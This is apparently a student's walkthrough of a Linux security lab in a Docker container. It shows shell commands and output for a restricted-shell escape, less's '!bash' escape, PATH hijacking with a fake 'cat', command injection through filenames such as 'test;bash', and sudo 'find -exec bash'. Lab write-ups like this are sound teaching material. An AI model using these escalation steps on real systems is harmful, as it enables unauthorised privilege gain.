 # Cyber Security - Linux Security

**Student: Philip Magnus**

## Preperation

```bash
$ docker load -i unix_basics.tar.gz
$ docker run -it unix_basics
```

First we need to load the docker image into our local image repository with the first command. The second command starts a docker container with the loaded `unix_basics` image and attaches our terminal session to the standard in- and output of the container.

After starting the container we can start exploring the container.

## Stage 0

The container starts with a restricted shell, in the following `rshell`. The rshell doesn't allow us to change the directory we are working in. So to move freely around the container our first task is to break out of the rshell.

```bash
user@2edddc8fc16e:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
user@2edddc8fc16e:~$ ls -la /usr/bin/ | grep bash
-rwxr-xr-x 1 root root   1183448 Jun 18  2020 bash
-rwxr-xr-x 1 root root      6794 Jun 18  2020 bashbug
lrwxrwxrwx 1 root root         4 Jun 18  2020 rbash -> bash
user@2edddc8fc16e:~$ bash
user@2edddc8fc16e:~$ cd /home/stage1
user@2edddc8fc16e:/home/stage1$
```

To get a better overview of the tools at hand we can take a look at the `$PATH` variable. Here we see that the `$PATH` contains the /usr/bin directory. Checking the directory and it's contents reveals executables we can use systemwide without needing to change the working deirectory. 
The /usr/bin directory contains a bash executable. Simply executing the bash command leads to a new session which is no longer restricted as can be shown by simply changing the directory.

## Stage 1

In the C sourcecode for `stage1` we can see that the program is calling the `less` command on a _stage1.txt_ file. `less` allows the execution of commands by typing a `!`in front of the command, for example: `!bash` would execute the bash command.

With the following commands we can gain more privileges by opening a bash session with the group of the `stage1` executable.

With `id` we can confirm the gained group.

```bash
iuser@eabdf37ef1a9:/home/stage1$ ./stage1

# In the opened less window type the following:
# !bash
# Submit the command with enter. less executes the command and starts a shell
# with the rights of the run ./stage1 executable

user@eabdf37ef1a9:/home/stage1$ id
uid=1000(user) gid=1501(stage1) groups=1501(stage1),1000(user)
```

## Stage 2 

The sourcecode of the `stage2` executable shows that the `cat` command is called on a _stage2.txt_ file. 

The command is called without a full path, this means the system needs to find the `cat` executable via it's `$PATH` variable.

We can exploit this with the following steps:

First we create our own `cat` file in a directory for which we have access rights. Into the `cat` file we enter a simple bash script that executes a command, for our example we use the `id` command.

```bash
user@eabdf37ef1a9:/home/stage2$ mkdir /tmp/stage2
user@eabdf37ef1a9:/home/stage2$ vi /tmp/stage2/cat
```

```bash
#!/bin/bash 
id
```

In the second step we set the right to execute our `cat` file for all users. After that we prepend the `$PATH` with the directory containing our `cat` file and execute `stage2`.

Because our `cat` file will be the first one found when looking at the `$PATH` the system will choose the file which we control for execution. [^1]

By calling `stage2` we execute our controlled file with the rights of the `stage2` executable.

```bash
user@eabdf37ef1a9:/home/stage2$ chmod a+x /tmp/stage2/cat
user@eabdf37ef1a9:/home/stage2$ PATH=/tmp/stage2/:$PATH ./stage2
uid=1000(user) gid=1502(stage2) groups=1502(stage2),1000(user)
```

## Stage 3 

Looking at the sourcecode for `stage3` shows us that the executable takes a user input and checks if a given file exists via the `stat()` function. The `stat()` function returns `0` if it executes correctly in any other case it would return a `-1`which would be the case if a file is non-existent. [^3]

```bash 
user@eabdf37ef1a9:/home/stage3$ mkdir /tmp/stage3
user@eabdf37ef1a9:/home/stage3$ touch "/tmp/stage3/test;bash"
user@eabdf37ef1a9:/home/stage3$ ./stage3
Please enter the filename you want to access: /tmp/mytmp/test;bash
/tmp/mytmp/test: empty
user@eabdf37ef1a9:/home/stage3$ id
uid=1000(user) gid=1503(stage3) groups=1503(stage3),1000(user)
```

## Stage 4

```bash
user@2edddc8fc16e:/tmp/stage4$ ln -s /home/stage4/stage4 "test;id"
user@2edddc8fc16e:/tmp/stage4$ "./test;id" 5000 & sleep 0; kill -USR1 $!
user@2edddc8fc16e:/tmp/stage4$ interrupt signal caught, terminating ./test
uid=1000(user) gid=1504(stage4) groups=1504(stage4),1000(user)
```

## Stage 5

```bash
user@2edddc8fc16e:/tmp/stage5$ cat /home/stage5/stage5.txt
Wait, there is no executable here? But you are sure there has to be something. After all you saw the "SUpervisoryDataOrganisation" menue entry when you logged in. So there must be one more level of privilege to gain... But how?

-- Check your privilege!
```

```bash
user@2edddc8fc16e:/tmp/stage5$ ls -la /etc/sudoers.d/
total 16
drwxr-xr-x 1 root root 4096 Feb 20  2022 .
drwxr-xr-x 1 root root 4096 Mar  1 19:27 ..
-r--r----- 1 root root  958 Jan 19  2021 README
-rw-r--r-- 1 root root   42 Feb 20  2022 find
user@2edddc8fc16e:/tmp/stage5$ cat /etc/sudoers.d/find
ALL  ALL=(:stage5) NOPASSWD:/usr/bin/find
user@2edddc8fc16e:/tmp/stage5$ sudo -g stage5 find -exec bash ";"
user@2edddc8fc16e:/tmp/stage5$ id
uid=1000(user) gid=1505(stage5) groups=1505(stage5),1000(user)
```

[^1]: [$PATH order](https://stackoverflow.com/questions/13088800/order-of-files-to-be-executed-in-linux-and-how-to-change-it)
[^3]: [Man pages for stat()](https://man7.org/linux/man-pages/man2/stat.2.html)